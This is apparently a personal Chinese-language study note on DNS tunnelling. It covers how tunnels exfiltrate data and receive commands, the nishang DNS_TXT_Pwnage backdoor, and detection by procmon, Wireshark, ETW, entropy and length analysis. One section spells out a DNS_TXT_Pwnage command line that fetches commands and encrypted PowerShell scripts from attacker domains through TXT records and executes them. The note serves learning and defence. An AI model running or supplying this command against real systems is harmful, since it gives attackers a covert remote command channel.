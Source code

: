 # dns tunnel学习笔记

老大推荐了一篇[dns隧道](http://www.freebuf.com/articles/network/149328.html)检测文章，这是一篇学习笔记

## 

看了很多篇有关dns隧道网文，决定从以下几个方面来分析一下dns隧道

1. 原理总结
2. dns后门工具：nishang/DNS_TXT_Pwnage
3. 如何对dns请求取证分析：本机DNS请求->定位到进程，wireshark->查看流量包，监控单个进程行为

## 原理

原文中将dns tunnel按照外传，和交互方式的特点来分类

### dns外传方式分类两个因素

#### 有无经过本地dns服务器

通过本地dns服务器或者是直接向公共服务器8.8.8.8进行查询
	
	nslookup domain 8.8.8.8
	nslookup domain

效果差异： 在发现以后，使用本地dns服务器可以进行黑名单过滤，对查询过程进行阻止，使用公共dns服务器无法进行阻止

#### 有无构造dns包体

通过dns配置或者是直接发送dns包体进行查询

使用dnspython模块，或者python构造socket进行dns查询 

效果差异：

1. 系统dns配置，无法获取哪个程序调用了dns请求，仅能看到系统svchost.exe的dns请求
2. 构造dns包体，可以获取哪个进程进行了dns请求


### dns交互分析

1. 超长记录外传数据 通过记录外传数据  
2. 利用txt记录获取回传数据
3. A记录回包作为C&C地址



## 工具分析

先对工具进行分析，知己知彼，百战不殆

DNS_TXT_Pwnage

### 场景假设：

1. victim向目标evil_dns服务器请求为type=txt的dns服务
2. evil_dns返回，nishang的DNS_TXT_Pwnage读取txt并执行
3. 乌云文章：DNS TXT记录执行powershell 等多种方式 中均没有涉及到通过长域名将数据外传，相当于使用powershell使用dns_txt请求得到木马，再进行tcp通信 wooyun.jozxing.cc/static/drops/tips-8971.html

### 使用手册

	DNS_TXT_Pwnage -startdomain start.evi1cg.me -cmdstring start -commanddomain command.evi1cg.me -psstring test -psdomain xxx.evi1cg.me -Subdomains 1 -StopString stop
	-startdomain :向startdomain发送请求 ，从txt记录回复中提取字串 
	-cmdstring   如果startdomain 获取的值 与cmdstring 相同 会请求comdomain
	-commanddomain dns命令服务器，返回的txt记录，直接是命令方式：get-user
 	-psstring    如果startdomain 获取的值 与psstring 相同，会请求psdomain
	-psdomain    dns脚本服务器，返回的txt记录是脚本形式，是用Out-DnsTxt 加密后的，经过解密可直接执行
	-subdomain   脚本太大，txt记录长度限制只能在255，比如一个脚本可能被分成两个加密字串 subdomain为2，在域名解析配置为1.ps 和 2.ps psdomain配置为ps
	-stopstring 如果startdomain值与 stopstring相同则停止运行，注：脚本是一直运行并发送请求 

### 特征：

利用txt记录获取回传记录

对于是否构造dns包体暂不清楚，是否使用本地dns服务器可以先看代码

## 监控取证

windows cmd下 ipconfig /flushdns 刷新缓存， ipconfig /displaydns 查看缓存，[缓存操作](http://www.linuxfly.org/post/543/)

开启dns日志，[win7有效果](https://green-m.github.io/2017/08/21/windows-dns-log/)

### 使用etw

理论上可行，但是使用pywintrace不知道为什么没有日志输出，暂时无法实际操作

#### 监控每个端口上的DNS通信
   
收集每个端口(或DNS客户端)上DNS解析器执行的每个DNS解析。数据是从Microsoft-Windows-DNS-Client ETW跟踪获得

#### 监控Netflow(IP)流量到出站DNS端口53
从每个服务器收集出站端口53的Netflow数据。Netflow数据是来自数据包头(IP地址，域，端口，协议，字节和进程)的聚合网络元数据。数据来自Microsoft-Windows-Kernel-Network ETW跟踪

#### 监控内部DNS服务器上的DNS数据(DNSflow)
汇总和收集来自DNS网络中DNS服务器的DNS查询和响应数据。DNSflow监控。收集的一些信息是聚合查询计数，查询类型，查询和响应字节，子域名，客户端和域名服务器IP地址。数据从Microsoft-Windows-DNSServer ETW跟踪出获得

### 使用wireshark

采用过滤器DNS，可以很清晰查看本机DNS向外部发送的请求

完成wireshark->查看流量包 目标

### 使用procmon

如果使用系统调用方式nslookup可以很好查到dns请求参数

procmon 是windowSysinternals中一款工具，可以对文件，进程，注册表操作做监控，使用菜单栏->Tools->Network Summary可以查看到相关的网络请求 Path代表 ```ip:port```形式 port为domain代表是dns查询，ip很有可能是内网地址，内网ip服务器，双击(添加进入过滤器)，再使用Show ProcessTree 即可查看进程树，可以查看到调用的进程

简单易操作，能够完成从异常DNS定位到发起进程，无论是调用系统配置，nslookup，或者是构造dns查询包直接查询。

完成 本机DNS请求->定位到进程

在进程树将进程和子进程加入过滤器，可以监控所有的行为：完成  监控单个进程行为

## 大流量对DNS隧道进行检测(理论)
SAAN白皮书[检测DNS隧道](https://github[.]com/NetSPI/BurpCollaboratorDNSTunn)

文章从payload分析和流量分析两个部分来对dns流量进行检测

### payload分析

请求和响应用来做隧道指示器

借用DGA(Domain Generation Algorithms)方法，

#### 请求和响应的长度

1. 检查请求源和目标字节长度的比率
2. DNS隧道请求的字符从63到255个，也有人以52个以上做鉴别

#### 主机名的熵

合法的DNS名通常来说符合字典而且看起来有意义，不合法的域名熵值高

#### 统计分析

1. 合法的域名使用的数字少，不合法的数字多

2. 合法的域名在一定层度上反映了通用语言文本，使用字符频率来检测
3. 重复辅音和数字通常情况都不会出现，

#### 不寻常的记录类型

TXT 记录

#### 

### 流量分析

存在于时间之上，将考虑技术、频率和其他请求属性



## 攻击者角度 DNS使用

### 动态DNS 技术

将域名链接到动态IP上，IP 是变化的，动态IP地址映射到一个固定的域名解析服务上

### Fast-flux


IP频繁变化 对应一个域名
(fast-flux技术地址)[http://www.freebuf.com/articles/network/136423.html]

### 域名地址变化

固定时间间隔产生唯一的域名， 域名生成算法(DGA)


